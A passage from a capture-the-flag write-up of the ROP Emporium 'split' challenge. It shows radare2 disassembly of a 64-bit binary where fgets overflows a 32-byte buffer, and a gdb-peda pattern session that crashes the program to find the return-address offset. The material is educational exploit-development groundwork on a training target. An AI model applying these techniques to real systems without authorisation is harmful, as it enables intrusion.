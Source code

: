```text
|           0x004007e7      e804feffff     call sym.imp.printf         ; int printf(const char *format)
|           0x004007ec      488b159d0820.  mov rdx, qword [obj.stdin__GLIBC_2.2.5] ; [0x601090:8]=0
|           0x004007f3      488d45e0       lea rax, qword [local_20h]
|           0x004007f7      be60000000     mov esi, 0x60               ; '`' ; 96
|           0x004007fc      4889c7         mov rdi, rax
|           0x004007ff      e81cfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x00400804      90             nop
|           0x00400805      c9             leave
\           0x00400806      c3             ret
```

Here we have similar scenario, we have a `32` byte buffer that can be overflowed with `fgets` that takes 96 characters from the user. So can we, once again, overflow the `RIP` register?

Let's analyze it in `gdb` with patterns. 

```text
gdb-peda$ pattern_create 100 input
Writing pattern of 100 chars to filename "input"
gdb-peda$ r < input
Starting program: /home/w3ndige/hacking/rop_emporium/split/split < input
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> 
Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffdd30 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgA")
RBX: 0x0 
RCX: 0xfbad2088 
RDX: 0x7fffffffdd30 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgA")
RSI: 0x7ffff7f92730 --> 0x0 
RDI: 0x7fffffffdd31 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgA")
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffdd58 ("AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgA")
RIP: 0x400806 (<pwnme+81>:	ret)
R8 : 0x0 
R9 : 0x77 ('w')
R10: 0x602010 --> 0x0 
R11: 0x246 
R12: 0x400650 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffde40 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4007ff <pwnme+74>:	call   0x400620 <fgets@plt>
   0x400804 <pwnme+79>:	nop
   0x400805 <pwnme+80>:	leave  
=> 0x400806 <pwnme+81>:	ret    
   0x400807 <usefulFunction>:	push   rbp
   0x400808 <usefulFunction+1>:	mov    rbp,rsp
   0x40080b <usefulFunction+4>:	mov    edi,0x4008ff
   0x400810 <usefulFunction+9>:	call   0x4005e0 <system@plt>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdd58 ("AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgA")
0008| 0x7fffffffdd60 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgA")
```